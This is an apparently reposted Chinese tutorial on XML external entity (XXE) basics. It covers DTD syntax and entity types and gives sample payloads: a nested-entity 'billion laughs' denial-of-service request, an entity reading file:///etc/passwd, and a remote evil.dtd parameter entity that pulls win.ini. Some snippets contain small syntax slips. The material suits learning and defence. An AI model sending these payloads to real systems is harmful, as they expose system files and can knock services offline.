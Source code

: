 # XXE 相关基础概念

> 原文：[https://www.zhihuifly.com/t/topic/3585](https://www.zhihuifly.com/t/topic/3585)

## XXE 相关基础概念

**XML&DTD**

XML(可扩展标记语言，EXtensible Markup Language )，是一种标记语言，用来传输和存储数据

DTD(文档类型定义，[Document](http://www.liuhaihua.cn/archives/tag/document) Type Definition )的作用是定义XML文档的合法构建模块。它使用一系列的合法元素来定义文档结构。

**实体ENTITY**

XML中的实体类型，一般有下面几种：字符实体，命名实体（或内部实体）、外部实体（包含分为：外部普通实体、外部参数实体）。除外部参数实体外，其他实体都以字符（&）开始以字符（；）结束。

**DTD引用方式**

a)DTD 内部声明

```
<!ENTITY 实体名称 SYSTEM "URI/URL" 
```

b)DTD 外部引用

```
<!DOCTYPE 根元素名称 SYSTEM “外部DTD的URI"> 
```

c)引用公共DTD

```
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名" “公用DTD的URI"> 
```

**0x1:字符实体**

字符实体类似html的实体编码，形如a(十进制)或者a（十六进制）。

**0x2:命名实体（内部实体）**

内部实体又叫命名实体。命名实体可以说成是变量声明，命名实体只能生命在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。

命名实体（或内部实体语法）:

```
<!ENTITY 实体名称 "实体的值"> 
```

如：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY x "First Param!">
    <!ENTITY y "Second Param!">
]>
<root><x>&x;</x><y>&y;</y></root> 
```

说明：

定义一个实体名称x 值为First Param!

&x; 引用实体x

知道以上语法后，可以使用名为foo的数据类型定义（DTD）构造如下请求:

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE foo [

<!ELEMENT foo ANY>

<!ENTITY bar “World”>

]>

<foo>

Hello &bar;

</foo>` 
```

respone:

```
HTTP/1.0 200 OK `Hello World` 
```

bar元素是单词“World”的别名 。看起来这样的内部实体似乎无害，但攻击者可以使用XML实体通过在实体内的实体内嵌入实体来导致拒绝服务攻击。通常被称为“ （Billion Laughs attack）[十亿笑攻击](https://en.wikipedia.org/wiki/Billion_laughs) ”。某些XML解析器会自动限制它们可以使用的内存量。

如：

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE foo [

<!ELEMENT foo ANY>

<!ENTITY bar "World ">

<!ENTITY t1 “&bar;&bar;”>

<!ENTITY t2 “&t1;&t1;&t1;&t1;”>

<!ENTITY t3 “&t2;&t2;&t2;&t2;&t2;”>

]>

<foo>

Hello &t3;

</foo>` 
```

response:

```
HTTP/1.0 200 OK `Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World` 
```

0x3):外部**普通实体**

外部实体用于加载外部文件的内容。(显示XXE攻击主要利用普通实体)

外部普通实体语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL" 
```

如：

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</xxe>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root> 
```

0x4):外部**参数实体**

```
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI"> 
```

参数实体用于DTD和文档的内部子集中。与一般实体不同，是以字符（%）开始，以字符(;)结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。(Blind XXE攻击常利用参数实体进行数据回显)

### 示例：

> 第一个例子

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo> 
```

外部evil.dtd中的内容。

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini" > 
```

> 第二个例子

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 " ">
    <!ENTITY % param3 "World">
    <!ENTITY dtd SYSTEM "combine.dtd">
    %dtd;
]>
<root><foo>&content</foo></root> 
```

combine.dtd的内容为：

```
<!ENTITY content "%parm1;%parm2;%parm3;"> 
```

说明：

上面combine.dtd中定义了一个基本实体，引用了3个参数实体：%param1;，%param2;，%param3;。

解析后 … 中的内容为Hello World。